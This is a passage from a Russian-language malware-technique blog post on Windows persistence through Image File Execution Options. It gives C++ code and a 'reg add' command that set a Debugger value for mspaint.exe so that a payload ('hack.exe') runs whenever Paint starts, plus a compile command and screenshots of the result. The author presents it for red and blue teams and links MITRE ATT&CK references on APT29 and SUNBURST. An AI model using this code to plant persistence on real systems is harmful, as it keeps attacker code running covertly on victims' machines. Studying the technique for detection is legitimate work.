  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Пример работы этого метода на практике:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Когда запускается процесс Microsoft Paint (`mspaint.exe`), это приводит к выполнению вредоносного кода. Отлично!    

Этот метод персистентности используется группой [APT29](https://attack.mitre.org/groups/G0016/) и вредоносным ПО, таким как [SUNBURST](https://attack.mitre.org/software/S0559/).    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[ATT&CK MITRE: IFEO Injection](https://attack.mitre.org/techniques/T1183/)    
[MSDN: Monitoring Silent Process Exit](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/registry-entries-for-silent-process-exit)      
[Persistence using GlobalFlags in Image File Execution Options - Hidden from autoruns.exe](https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/)     
[APT29](https://attack.mitre.org/groups/G0016/)     
[SUNBURST](https://attack.mitre.org/software/S0559/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-10-malware-pers-10)    
